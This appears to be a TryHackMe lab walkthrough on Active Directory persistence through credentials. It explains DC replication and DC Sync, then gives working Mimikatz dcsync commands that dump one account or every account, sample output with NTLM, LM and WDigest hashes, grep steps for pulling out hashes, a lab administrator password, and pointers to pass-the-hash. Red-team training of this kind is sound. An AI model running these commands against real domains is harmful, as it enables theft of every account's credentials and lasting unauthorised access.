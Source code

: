# Persistence Through Credentials

## Introduction

Congratulations, weary traveler! After breaching Active Directory (AD), performing enumeration, and exploiting it all the way to the top (if you have followed these AD networks in order), you have finally made it to the tavern of persistence. The hard work is over, and it is now time for some fun. While AD persistence is still serious business, it is not as stressful as the other phases. Here, we can let our creativity flow free. So rest your weary bones in our tavern, get yourself a nice cup of tea, and let's begin.

Together with your low-privileged credentials, you will be provided with Domain Administrator credentials. What luck! When discussing persistence techniques, you will use the privileged credentials to perform the persistence technique on your low-privileged credential set. Make a note of the following DA account:

- **Username:** Administrator
- **Password:** tryhackmewouldnotguess1@
- **Domain:** ZA

Since you have full access over the entire domain, we can't really hide any flags or force you to make sure you perform these persistence techniques yourself before answering the questions. However, it is encouraged that you take your time to work through these methods, as they will pay dividends during a red team assessment when the blue team starts kicking you out.

---

## Credentials as a Persistence Technique

The first and least reliable persistence technique that we will discuss is credentials. Several of the lateral techniques discussed in previous rooms would have resulted in the attacker gaining access to credentials. When using the word "credentials," it can mean a username and password pair, but in the context of AD, even the password hash is sufficient for authentication through pass-the-hash techniques.

---

## DC Sync

It is not sufficient to have a single domain controller per domain in large organizations. These domains are often used in multiple regional locations, and having a single DC would significantly delay any authentication services in AD. As such, these organizations make use of multiple DCs. The question then becomes: how is it possible for you to authenticate using the same credentials in two different offices?

The answer is **domain replication**. Each domain controller runs a process called the Knowledge Consistency Checker (KCC). The KCC generates a replication topology for the AD forest and automatically connects to other domain controllers through Remote Procedure Calls (RPC) to synchronize information. This includes updated information such as the user's new password and new objects, such as when a new user is created. This is why you usually have to wait a couple of minutes before you authenticate after you have changed your password, since the DC where the password change occurred may not be the same one as the one where you are authenticating.

The process of replication is called **DC Synchronization**. It is not just the DCs that can initiate replication. Accounts such as those belonging to the Domain Admins group can also do it for legitimate purposes, such as creating a new domain controller.

A popular attack to perform is a **DC Sync attack**. If we have access to an account that has domain replication permissions, we can stage a DC Sync attack to harvest credentials from a DC.

---

## Not All Credentials Are Created Equal

Before starting our DC Sync attack, let's first discuss what credentials we could potentially hunt for. While we should always look to dump privileged credentials such as those that are members of the Domain Admins group, these are also the credentials that will be rotated (a blue team term meaning to reset the account's password) first. As such, if we only have privileged credentials, it is safe to say as soon as the blue team discovers us, they will rotate those accounts, and we can potentially lose our access.

The goal then is to persist with **near-privileged credentials**. We don't always need the full keys to the kingdom; we just need enough keys to ensure we can still achieve goal execution and always make the blue team look over their shoulder. As such, we should attempt to persist through credentials such as the following:

- Credentials that have local administrator rights on several machines. Usually, organizations have a group or two with local admin rights on almost all computers. These groups are typically divided into one for workstations and one for servers. By harvesting the credentials of members of these groups, we would still have access to most of the computers in the estate.
- Service accounts that have delegation permissions. With these accounts, we would be able to force golden and silver tickets to perform Kerberos delegation attacks.
- Accounts used for privileged AD services. If we compromise accounts of privileged services such as Exchange, Windows Server Update Services (WSUS), or System Center Configuration Manager (SCCM), we could leverage AD exploitation to once again gain a privileged foothold.

When it comes to what credentials to dump and persist through, it is subject to many things. You will have to get creative in your thinking and take it on a case-by-case basis. However, for this room, we are going to have some fun, make the blue team sweat, and dump every single credential we can get our hands on!

---

## DCSync All

We will be using **Mimikatz** to harvest credentials. SSH into `THMWRK1` using the DA account and load Mimikatz:

```shell
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

za\administrator@THMWRK1 C:\Users\Administrator.ZA>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

    .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
    '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 

mimikatz #
```

Let's start by performing a DC Sync of a single account, our own:

```shell
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
```

Example output:

```
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'aaron.jones' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones 

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 ( USER_OBJECT )    
User Account Control : 00000200 ( NORMAL_ACCOUNT ) 
Account expiration   :
Password last change : 4/25/2022 7:30:21 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429 
Object Relative ID   : 1429

Credentials:
    Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc 
        ntlm- 0: fbdcd5041c96ddbd82224270b57f11fc 
        lm  - 0: 0fd2685aa18c78bd265d02bdec203b04 

[...]

* Primary:WDigest * 
        01  991d45386dd3561e0c5529d3605f96e6
        02  d5d6f25b233c87b289706d7b423f1145
[...]
```

You will see quite a bit of output, including the current NTLM hash of your account. You can verify that the NTLM hash is correct by using a website to transform your password into an NTLM hash.

---

This is great, but we want to DC sync **every single account**. To do this, we will have to enable logging on Mimikatz:

```shell
mimikatz # log <username>_dcdump.txt 
```

> Using `<username>_dcdump.txt` for logfile: OK

Make sure to change `<username>` to your username so as not to overwrite the log dump of other users. Now, instead of specifying our account, we will use the `/all` flag:

```shell
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

This will take a bit of time to complete. Once done, exit Mimikatz to finalize the dump. You can then download the `<username>_dcdump.txt` file. Use the following commands to extract information:

- To recover all the usernames:
    ```shell
    cat <username>_dcdump.txt | grep "SAM Username"
    ```
- For all hashes:
    ```shell
    cat <username>_dcdump.txt | grep "Hash NTLM"
    ```

We can now either perform an offline password cracking attack to recover the plain text credentials or simply perform a pass-the-hash attack with Mimikatz.